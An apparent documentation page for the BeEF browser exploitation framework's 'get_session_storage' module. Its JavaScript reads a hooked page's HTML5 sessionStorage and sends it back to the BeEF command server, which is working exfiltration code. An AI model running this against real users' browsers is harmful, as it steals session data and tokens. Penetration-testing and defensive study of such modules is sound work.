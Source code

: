 ## Summary
* **Objective**: Extracts data from the HTML5 sessionStorage object.
* **Date**: ???
* **Authors**: bcoles
* **Browsers**: IE 8+, Firefox 4? Opera 11+, Safari 4+
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/get_session_storage]]

## Internal Working

This module just gather the session Storage for this page using the window['sessionStorage'] function :

```javascript
beef.execute(function() {
    if ('sessionStorage' in window && window['sessionStorage'] !== null) {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "sessionStorage="+JSON.stringify(window['sessionStorage']));
    } else beef.net.send("<%= @command_url %>", <%= @command_id %>, "sessionStorage="+JSON.stringify("HTML5     sessionStorage is null or not supported."));
});
```

## Feedback